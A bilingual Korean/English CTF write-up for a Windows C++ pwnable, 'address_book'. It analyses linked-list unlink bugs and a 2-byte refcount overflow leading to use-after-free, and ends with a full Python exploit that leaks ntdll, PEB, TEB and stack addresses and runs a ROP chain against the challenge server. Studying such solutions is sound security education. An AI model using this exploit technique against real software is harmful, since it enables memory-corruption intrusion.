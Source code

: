 ## address_book

<details>
<summary>KR</summary>

C++로 작성된 "make note" 스타일의 윈도우 pwnable 문제입니다. 바이너리를 탑다운으로 분석한 결과 다음과 같습니다:

1. `AddressBook`과 `RecycleBin` 두 개의 main object가 0x248 크기로 할당됩니다. `Element` object들의 비순환적인 이중 연결 리스트를 가지고 있습니다.
   ```
   00000000 AddressBook     struc ; (sizeof=0x248, mappedto_50)
   00000000 vtable          dq ?
   00000008 name            dw 268 dup(?)
   00000220 root            DList ?
   00000230 aliveCnt        dd ?
   00000234 allocCnt        dd ?
   00000238 field_238       dq ?
   00000240 field_240       dq ?
   00000248 AddressBook     ends
   
   00000000 DList           struc ; (sizeof=0x10, mappedto_54)
   00000000                                         ; XREF: AddressBook/r
   00000000                                         ; Element/r
   00000000 next            dq ?                    ; head
   00000008 prev            dq ?                    ; tail
   00000010 DList           ends
   ```
2. `Element`는 read()로 입력받는 영역과 (name, address, city) index 번호를 가지며, 마찬가지로 0x248 크기로 할당됩니다.
   ```
   00000000 Element         struc ; (sizeof=0x248, mappedto_53)
   00000000 name            db 16 dup(?)
   00000010 address         db 512 dup(?)
   00000210 city            db 24 dup(?)
   00000228 dlist           DList ?
   00000238 field_238       dq ?
   00000240 idx             dd ?
   00000244 field_244       dd ?
   00000248 Element         ends
   ```
3. Main object들은 reference object를 이용하여 참조 횟수를 계산합니다. 참조가 되면 참조 횟수 값에 10이 더해지며, 참조가 해제되면 거꾸로 10을 뺍니다. 참조를 해제할 때 참조 횟수 값이 10보다 작으면 (signed comparison) 참조되고 있는 object를 free()합니다. 참조 횟수 값은 2바이트 크기의 정수입니다.
4. 메뉴에 7가지 기능이 제공됩니다:
   1. `Add`: 새로운 Element를 만들고 `AddressBook`의 tail에 추가합니다. 최대 101개의 Element를 할당할 수 있습니다.
   2. `List`: `AddressBook`을 재귀적으로 탐색하며 내용을 출력합니다.
   3. `Delete`: `AddressBook`에서 Element 하나를 뽑은 후 `RecycleBin`의 tail에 추가합니다.
   4. `Restore`: `RecycleBin`에서 Element 하나를 복구한 후 (뽑은 후) `AddressBook`에 다시 삽입합니다.
   5. `Modify`: `AddressBook`의 한 Element에 대해 name, address와 city의 값을 수정합니다.
   6. `Empty`: `AddressBook`이나 `RecycleBin` 리스트에 포함된 Element들을 free하며, 관련된 데이터를 0으로 초기화 합니다 (`root`, `aliveCnt`, `allocCnt`).
   7. `Exit`: Main object들을 참조 해제하고 main()에서 리턴합니다.

많은 함수들이 다양한 방법으로 이상하게 동작하는데, 그 몇 가지는 다음과 같습니다:

1. 이중 연결 리스트에서 Element를 뽑아내는 함수가 (`Delete` 와 `Restore`에서 사용) 뽑은 Element의 `prev` or `next` 를 지우지 않고, head를 뽑을 때 `root.next->dlist.prev` 또한 지워지지 않습니다. 뽑으려는 Element가 tail이 아니지만 tail과 같은 `idx` 값을 가지는 경우 생기는 이상한 버그도 있습니다.
2. `Restore` 기능은 복구한 Element를 이상한 위치에 삽입하는데, if-else문에서는 증가하는 `idx` 값을 가지는 리스트를 가정하고 삽입 위치를 탐색하는 함수는 단순히 `idx`가 모여 있는 리스트를 가정하여 발생합니다.
3. `Modify` `idx` 탐색 함수는 그냥 _잘못짜서_ 의도가 뭔지 모르겠네요...

위의 버그들 중 가장 exploitable해 보이는 버그는 첫 번째 버그입니다. 여러 비정상적인 상태를 만들 수 있는데, 예를 들어 `B`를 `RecycleBin` 리스트 `A -> B -> C -> D`에서 뽑은 다음 `AddressBook`의 빈 리스트에 삽입한 결과는 `RecycleBin` 리스트 `A -> C -> D`와 `AddressBook` 리스트 `B -> C -> D`가 됩니다.

위의 버그를 이용하여 `AddressBook`에 순환적인 연결 리스트를 다음과 같은 방식으로 만들 수 있습니다:
```python
for i in range(1, 6):
    add(str(i)+'\n', str(i)+'\n', str(i)+'\n')
for i in range(5, 0, -1):
    data = delete(i)

# Create infinite-looping DList with stray next ptrs
restore(3)
restore(2)
```

이제 참조 횟수 값을 오버플로우 시키는 것이 가능합니다. 기존에는 3000개가 넘는 Element들을 `Add`, `Delete` 후 `Restore`시켜야 가능했다면, 이제는 `List`에 Element 개수만 대략 `0x8000 // 10`개로 제한하여 출력하면 됩니다. 정확한 값을 계산하자면, `3275`개의 Element를 출력하여 3273번째 재귀에서 음수로 오버플로우, 3274번째 재귀에서 거기에다 +10, 그 다음 마지막 재귀인 3275번째 재귀에서 참조가 해제되며 `AddressBook` 힙 주소가 출력되고 정확히 한번 free됩니다.

`AddressBook`이 해제되었으니, `Add` 기능을 이용하여 해제된 그 청크에 `Element`를 할당받을 수 있습니다. 이 방식으로 `vtable`, `name`과 `root.next`를 덮을 수 있는데, 이는 임의 주소에 읽고 쓰기에 충분합니다.

마지막 과정은 다음과 같습니다:
1. `AddressBook`을 덮어 써서 겹치는 `Element`의 리스트를 만듭니다. `AddressBook`의 주소를 `ab`라고 했을 때, `(ab - 0x100) -> (ab - 0x180) -> (target)`을 사용했습니다.
2. `Modify`로 `target`을 원하는 주소로 변경합니다.
3. `List`와 `Modify`로 임의 주소에서 데이터를 읽고 씁니다.
4. 2~3을 통해 ntdll부터 스택 주소까지 필요한 모든 정보를 알아냅니다.
5. 2~3의 임의 쓰기를 통해 참조 횟수 값을 저장하는 가짜 메모리 주소를 만들어 `Exit` 시에 참조 해제를 통한 free를 막습니다.
6. ROP chain을 적고, `Exit`하여 플래그를 출력합니다.

</details>

<details>
<summary>EN</summary>

Windows "make note"-style pwnable chal written in C++. Reversing the binary top to bottom we see:

1. Two main objects, `AddressBook` and `RecycleBin` of size 0x248. These keep an acyclic doubly linked list of `Element`s.
   ```
   00000000 AddressBook     struc ; (sizeof=0x248, mappedto_50)
   00000000 vtable          dq ?
   00000008 name            dw 268 dup(?)
   00000220 root            DList ?
   00000230 aliveCnt        dd ?
   00000234 allocCnt        dd ?
   00000238 field_238       dq ?
   00000240 field_240       dq ?
   00000248 AddressBook     ends
   
   00000000 DList           struc ; (sizeof=0x10, mappedto_54)
   00000000                                         ; XREF: AddressBook/r
   00000000                                         ; Element/r
   00000000 next            dq ?                    ; head
   00000008 prev            dq ?                    ; tail
   00000010 DList           ends
   ```
2. `Element`s are composed of read()-input fields (name, address, city) and an index, with a total size of 0x248.
   ```
   00000000 Element         struc ; (sizeof=0x248, mappedto_53)
   00000000 name            db 16 dup(?)
   00000010 address         db 512 dup(?)
   00000210 city            db 24 dup(?)
   00000228 dlist           DList ?
   00000238 field_238       dq ?
   00000240 idx             dd ?
   00000244 field_244       dd ?
   00000248 Element         ends
   ```
3. Main objects are reference counted with reference objects. Each refs add 10 to the reference count value, and vice versa for derefs. At deref, if refcnt reaches less than 10 (signed comparison) the referenced object is freed. Reference count value is stored as 2-byte sized integer.
4. Menu with 7 functions:
   1. `Add`: Creates a new element and appends it to the tail of `AddressBook`. At most 101 elements are allocatable.
   2. `List`: Recursively traverses `AddressBook` while printing out contents of elements.
   3. `Delete`: Pops an element from `AddressBook` and appends it to the tail of `RecycleBin`.
   4. `Restore`: Restores (Pops) an element from `RecycleBin` and pushes it back to `AddressBook`
   5. `Modify`: Modifies name, address and city of an element from `AddressBook`.
   6. `Empty`: Frees `AddressBook` or `RecycleBin` elements and zeros out related fields (`root`, `aliveCnt`, `allocCnt`).
   7. `Exit`: Derefs main objects and returns from main().

Many functions are malfunctional in diverse ways. Some are listed below:

1. The function which pops out an element from the doubly linked list (used in `Delete` and `Restore`) fails to clean up `prev` or `next` of popped element, as well as `root.next->dlist.prev` when popping head. It even has a weird index confusion bug when the element to be popped is not the tail but has same index as tail.
2. `Restore` function inserts the restored element in a weird position, with the if-else predicates assuming increasing order and the index-finding function assuming a simple grouping by indices.
3. `Modify` index searching function is simply wrong, I dunno what's intended...

From the above bugs, the most exploitable is the first one. It can cause many anomalous states, for example popping `B` from `RecycleBin` list `A -> B -> C -> D` and inserting it to `AddressBook` empty list will result in `RecycleBin` list of `A -> C -> D` and `AddressBook` list of `B -> C -> D`.

Fiddle with the bug to create a cyclic linked list at `AddressBook` as the following code:
```python
for i in range(1, 6):
    add(str(i)+'\n', str(i)+'\n', str(i)+'\n')
for i in range(5, 0, -1):
    data = delete(i)

# Create infinite-looping DList with stray next ptrs
restore(3)
restore(2)
```

Now refcnt overflow is viable - we don't have to add, delete and restore over 3000 elements which was taking eternity, but instead `List` just about `0x8000 // 10` number of elements. Counting the exact number, we can list `3275` elements to overflow to negative at recursion #3273, add another 10 to that at #3274, then deref at #3275 (end of recursion) to leak `AddressBook` heap address and free it just once.

`AddressBook` is freed - use `Add` function to allocate an `Element` located exactly at the freed chunk. This allows overwriting `vtable`, `name` and `root.next` which is enough to get us AAR/W.

These are the final steps:
1. Overwrite `AddressBook` to create `Element` chain with overlapping memory region. Assuming the address of `AddressBook` to be `ab`, I used `(ab - 0x100) -> (ab - 0x180) -> (target)` chain.
2. Use `Modify` to modify `target` to desired address.
3. Use `List` and `Modify` for AAR/W.
4. Repeat steps 2~3 until we leak everything from ntdll base up to stack address.
5. Use steps 2~3 AAW to create fake reference counters to avoid free inside derefs at `Exit`.
6. Write ROP chain, `Exit` and pop out flag.

</details>

<details>
<summary>Exploit Code</summary>

```python
from pwintools import *
from pdbparse.symlookup import Lookup
import os

def inject(pe, sym, name):
    if name not in pe.symbols:
        pe.symbols[name] = next(
            sym.locs[base, limit][sym.names[base, limit].index(name)]
            for base, limit in sym.addrs
            if name in sym.names[base, limit]
        )

binary = PE('./binary.exe')
ntdll = PE('./ntdll.dll')
ucrtbase = PE('./ucrtbase.dll')
ntdll_sym = Lookup([(r'.\ntdll.pdb', 0)])
inject(ntdll, ntdll_sym, 'TlsExpansionBitMap')

os.environ["_NO_DEBUG_HEAP"] = "1"

DEBUG = False
def launch():
    global p
    if DEBUG:
        p = Process('./binary.exe')
    else:
        p = Remote('125.129.121.42', 55555)
        p.timeout = 5000
    p.newline = '\r\n'

def start_debug(wait=True):
    if DEBUG:
        p.timeout = 10000000
        p.spawn_debugger(x96dbg = True, sleep = 3)
        if wait:
            raw_input('continue?')

def menu(sel):
    p.recvuntil('7. Exit\r\n')
    p.recvuntil('> \r\n')
    p.sendline(str(sel))

def add(name, addr, city):
    menu(1)
    p.recvuntil('Name :')
    p.send(name)
    p.recvuntil('Address : ')
    p.send(addr)
    p.recvuntil('City : ')
    p.send(city)
    p.recvuntil('Add complete\r\n')

def lister(cnt, probe_leak=False):
    menu(2)
    p.recvuntil('Enter the number of addresses want to view > ')
    p.sendline(str(cnt))
    p.recvuntil('===== [')
    book_name = p.recvuntil('] Address Book List =====', drop=True)
    
    if probe_leak:
        data = ''
        while 'Number of Address' not in data:
            data = p.recvuntil('Address')
        p.recvuntil('Address Book list saved in ')
        data = int(p.recvline(keepends=False), 16)
        return data
    
    lst = []
    for i in range(cnt):
        p.recvuntil('======Address [')
        idx = int(p.recvuntil(']======', drop=True))
        p.recvuntil('Name : ')
        name = p.recvuntil('\r\nAddress : ', drop=True)
        addr = p.recvuntil('\r\nCity : ', drop=True)
        city = p.recvuntil('\r\n', drop=True)
        lst.append((idx, name, addr, city))
    p.recvuntil('Number of Address : ')
    alive_cnt = int(p.recvline(keepends=False))
    return book_name, alive_cnt, lst

def delete(idx):
    menu(3)
    p.recvuntil('which one you want to delete > ')
    p.sendline(str(idx))
    p.recvuntil('Complete\r\n')
    p.recvuntil('===== Recycle Bin =====')
    # TODO: parse
    return p.recvuntil('\r\n\r\n1. Add address Info', drop=True)

def restore(idx):
    menu(4)
    p.recvuntil('which one you want to restore > ')
    p.sendline(str(idx))
    p.recvuntil('Complete')

def modify(idx, modify_chain):
    menu(5)
    p.sendline(str(idx))
    for sel, data in modify_chain:
        p.recvuntil('> \r\n')
        p.sendline(str(sel))
        if sel == 4:
            break
        p.recvuntil('new ')
        p.recvuntil(' : ')
        p.send(data)

def empty(sel):
    menu(6)
    p.recvuntil('2. Empty Recycle Bin\r\n>')
    p.sendline(str(sel))

def exiter():
    menu(7)

launch()

p.recvuntil('Input Address Book Name > \r\n')
p.send('aaaa\n')

for i in range(1, 6):
    add(str(i)+'\n', str(i)+'\n', str(i)+'\n')
for i in range(5, 0, -1):
    data = delete(i)

# Create infinite-looping DList with stray next ptrs
restore(3)
restore(2)

book = lister(3275, True)  # just enough to overflow once
log.success('book: {:016x}'.format(book))
rbin = book + 0x250
log.info('rbin: {:016x}'.format(rbin))

# Prepare fake Elements structures
payload  = 'A'*0x98
payload += 'ZZZZZZZZ'
payload  = payload.ljust(-0x110 + 0x228, 'B')
payload += p64(book - 0x180) + 'C'*0x10 + p32(0x13371337)
payload  = payload.ljust(0x200, 'D')

# Add at AddressBook, immediately overwritting root.next (head)
add('AAAA\n', payload, 'A'*0x10+p64(book - 0x100))

fakerefs = book - 0x100 + 0x10, book - 0x100 + 0x10 + 4
def set_addr(addr):
    payload  = p32(0x3030) + p32(0x3030) # fakerefs, avoid Deref()s at main() ret
    payload  = payload.ljust(0x198, 'D')
    payload += p64(addr - 0x10)  # use lst[2][2]
    payload += 'C'*0x10 + p32(0x13371337)
    payload  = payload.ljust(0x200, '!')
    modify(1, [(2, payload), (4, None)])

set_addr(rbin)
_, _, lst = lister(3)
binary.base = u64(lst[2][2].ljust(8, '\0')) - 0x6960
assert(binary.base & 0xffff == 0)
log.success('binary: {:016x}'.format(binary.base))

set_addr(binary.base + 0x6060)
_, _, lst = lister(3)
ntdll.base = u64(lst[2][2].ljust(8, '\0')) - ntdll.symbols['RtlInitializeSListHead']
assert(ntdll.base & 0xffff == 0)
log.success('ntdll: {:016x}'.format(ntdll.base))

set_addr(binary.base + 0x62e0)
_, _, lst = lister(3)
ucrtbase.base = u64(lst[2][2].ljust(8, '\0')) - ucrtbase.symbols['_sopen_dispatch']
assert(ucrtbase.base & 0xffff == 0)
log.success('ucrtbase: {:016x}'.format(ucrtbase.base))

set_addr(ntdll.base + ntdll.symbols['TlsExpansionBitMap'] + 8)
_, _, lst = lister(3)
peb = u64(lst[2][2].ljust(8, '\0')) - 0x240
assert(peb & 0xfff == 0)
log.success('peb: {:016x}'.format(peb))

teb = peb + 0x1000
set_addr(teb + 0x8 + 2)
_, _, lst = lister(3)
stack_base = u64(('\0\0' + lst[2][2]).ljust(8, '\0'))
assert(stack_base & 0xffff == 0)
log.success('stack_base:  {:016x}'.format(stack_base))

set_addr(teb + 0x10 + 2)
_, _, lst = lister(3)
stack_limit = u64(('\0\0' + lst[2][2]).ljust(8, '\0'))
assert(stack_limit & 0xfff == 0)
log.success('stack_limit: {:016x}'.format(stack_limit))

probe = stack_base - 0xd8 - 0x200
ret_pattern = binary.base + 0x4584
log.info('Probing for pattern {:016x}...'.format(ret_pattern))
for i in range(0x200):
    log.info('probe #0x{:03x} @ {:016x}'.format(i, probe))
    set_addr(probe)
    _, _, lst = lister(3)
    leak = u64(lst[2][3].ljust(8, '\0'))
    if leak == ret_pattern:
        assert i >= 0x10  # space for rop
        break
    probe -= 0x10
ret_addr = probe + 0x200
log.success('ret@stack: {:016x}'.format(ret_addr))

# binObj:  -188h => write at -180h
# bookObj: -1c0h => write at -1b8h
refs = ret_addr - 0x180, ret_addr - 0x1b8
log.info('fake refcnt @ {:016x} and {:016x}'.format(refs[0], refs[1]))

for i in range(2):
    set_addr(refs[i])
    modify(0x13371337, [(2, p64(fakerefs[i])+'\n'), (4, None)])

"""
ntdll based
0x0000000180001029 : ret
0x000000018008df3f : pop rcx ; ret
0x000000018008b8f7 : pop rdx ; pop r11 ; ret
0x00000001800069d3 : pop r8 ; ret
0x0000000180003edc : add rsp, 0x28 ; ret

ROP Chain: classic open-read-write (+sleep)
"""

buf = book
rop = ''.join([
    p64(ntdll.base + 0x8df3f),  # ..8
    p64(3),
    p64(ntdll.base + 0x8b8f7),
    p64(buf),
    p64(0),
    p64(ntdll.base + 0x69d3),
    p64(0x100),
    p64(ucrtbase.base + ucrtbase.symbols['_read']),
    p64(ntdll.base + 0x3edc),
    p64(0),
    p64(0),
    p64(0),
    p64(0),
    p64(0),
    p64(ntdll.base + 0x8df3f),
    p64(1),
    p64(ntdll.base + 0x8b8f7),
    p64(buf),
    p64(0),
    p64(ntdll.base + 0x69d3),
    p64(0x100),
    p64(ucrtbase.base + ucrtbase.symbols['_write']),
    p64(ntdll.base + 0x3edc),
    p64(0),
    p64(0),
    p64(0),
    p64(0),
    p64(0),
    p64(ntdll.base + 0x8df3f),
    p64(0xffffffff),
    p64(ntdll.base + 0x1029),
    p64(ucrtbase.base + ucrtbase.symbols['_sleep']),
])  # and some trailing shadow space

start_debug()

assert len(rop) < 0x200
assert '\n' not in rop

set_addr(ret_addr)
modify(0x13371337, [(2, rop+'\n'), (4, None)])

exiter()

p.recvuntil('XMAS{')

flag = 'XMAS{' + p.recvuntil('}')
print(flag)
```

</details>

Flag: `XMAS{1$_y0ur_@ddr3ss_1n_s4nt4s_addr3ss_b00k?}`